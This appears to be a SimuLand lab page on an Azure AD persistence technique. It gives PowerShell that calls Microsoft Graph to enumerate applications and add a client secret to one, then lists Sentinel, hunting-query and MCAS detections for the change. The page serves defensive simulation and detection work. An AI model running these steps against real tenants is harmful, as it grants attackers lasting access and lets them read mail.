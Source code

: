 # Add Credentials to Application

Once a threat actor identifies an application of interest to authenticate to, credentials can be added to it. This allows the adversary to use custom credentials and maintain persistence.

Based on [Microsoft documentation](https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-oauth2-client-creds-grant-flow), during the authentication flow an application must present credentials. 

This authentication consists of two elements:
* An Application ID, sometimes referred to as a Client ID. A GUID that uniquely identifies the app's registration in your Active Directory tenant.
* A secret associated with the application ID. You can either generate a client secret string (similar to a password) or specify an X509 certificate (which uses its public key).

[An application object is the global representation of an application for use across all tenants, and the service principal is the local representation for use in a specific tenant](https://docs.microsoft.com/en-us/azure/active-directory/develop/app-objects-and-service-principals). A service principal must be created in each tenant where the application is used, enabling it to establish an identity for sign-in and/or access to resources being secured by the tenant.

## Simulate & Detect
1.	[Enumerate existing applications](#enumerate-existing-azure-ad-applications) 
2.	[Add credentials to application](#add-credentials-to-application)
    * [Detect credentials added to an application](#detect-credentials-added-to-an-application)

## Preconditions
* Authorization
    * Identity solution: Azure AD
    * Access control model: Discretionary Access Control (DAC)
    * Service: Azure Microsoft Graph
    * Permission Type: Delegated
    * Permissions: Application.ReadWrite.All
* Endpoint: ADFS01
    * Even when this step would happen outside of the organization, we can use the same PowerShell session where we [got a Microsoft Graph access token](getAccessTokenSAMLBearerAssertionFlow.md) for the Azure AD PowerShell application to go through the simulation steps.
    * Microsoft Graph Access Token
        * Use the output from the previous step as the variable `$MSGraphAccessToken` for the simulation steps. Make sure the access token is from the `Azure Active Directory PowerShell Application`. That application has the right permissions to execute all the simulation steps.

## Enumerate Existing Azure AD Applications

```PowerShell
$headers = @{"Authorization" = "Bearer $MSGraphAccessToken"}
$params = @{
    "Method"  = "Get"
    "Uri"     = "https://graph.microsoft.com/v1.0/applications"
    "Headers" = $headers
}
$applications = Invoke-RestMethod @params
$applications
```

Next, filter the results and select the Azure AD application that was created for this lab environment. If you followed the instructions to [register one Azure AD application](../../2_deploy/_helper_docs/registerAADAppAndSP.md) after deploying the lab environment, your app should be named `SimuLandApp`. If you used a different name, make sure you look for it with the right name in t he following PowerShell command:

```PowerShell
$application = $applications.value | Where-Object {$_.displayName -eq "SimuLandApp"}
```

Use the `$application` variable to get the application object id.

```PowerShell
$appObjectId = $application.id
$appObjectId
```

## Add Credentials to Application

### Adding Credentials (Password) to an Application

```PowerShell
$pwdCredentialName = 'SimuLand2021'
$headers = @{
    "Content-Type"  = "application/json"
    "Authorization" = "Bearer $MSGraphAccessToken"
}
$body = @{
    passwordCredential = @{ displayName = "$($pwdCredentialName)" }
}
$params = @{
    "Method"  = "Post"
    "Uri"     = "https://graph.microsoft.com/v1.0/applications/$appObjectId/addPassword"
    "Body"    = $body | ConvertTo-Json –Compress
    "Headers" = $headers
}
$credentials = Invoke-RestMethod @params
$credentials
$secret = $credentials.secretText
$secret
```
 
![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_04_app_new_secret.png)

Browse to [Azure Portal](https://portal.azure.com/) and go to Azure AD > App Registrations > `SimuLandApp` > `Certificates & secrets` to verify the task.

![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_05_app_new_secret.png)

## Detect Credentials Added to an Application

### Azure Sentinel Detection Rules

* [New access credential added to Application or Service Principal](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/AuditLogs/NewAppOrServicePrincipalCredential.yaml)
* [First access credential added to Application or Service Principal where no credential was present](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/AuditLogs/FirstAppOrServicePrincipalCredential.yaml)

### Microsoft 365 Hunting Queries

* [Credentials were added to an Azure AD application after 'Admin Consent' permissions granted [Nobelium]](https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/773ebb498e0aa897678be98c34ffa56359bf29d9/Persistence/CredentialsAddAfterAdminConsentedToApp%5BNobelium%5D.md)

### Azure AD Workbook: `Sensitive Operations Report`
1.	Browse to [Azure Portal](https://portal.azure.com/)
2.	Azure AD > `Workbooks` > `Sensitive Operations Report`

![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_06_workbook.png)

### Microsoft Cloud App Security
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.	Go to `More Resources` and click on `Microsoft Cloud App Security`.
3.	`Alerts`
 
![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_07_mcas_alert.png)

![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_08_mcas_alert.png)

## Output

Use the variable `$secret` that contains the credentials object to authenticate to the compromised application. For example, if the application has permissions to read mail, you can authenticate to the application and use it to do so.

* [Mail access with delegated permissions](../collection/mailAccessDelegatedPermissions.md)

# References
* [OAuth 2.0 client credentials flow on the Microsoft identity platform | Microsoft Docs](https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-oauth2-client-creds-grant-flow)
* [Use an app identity to access resources - Azure Stack Hub | Microsoft Docs](https://docs.microsoft.com/en-us/azure-stack/operator/azure-stack-create-service-principals?view=azs-2008&tabs=az1%2Caz2&pivots=state-disconnected)
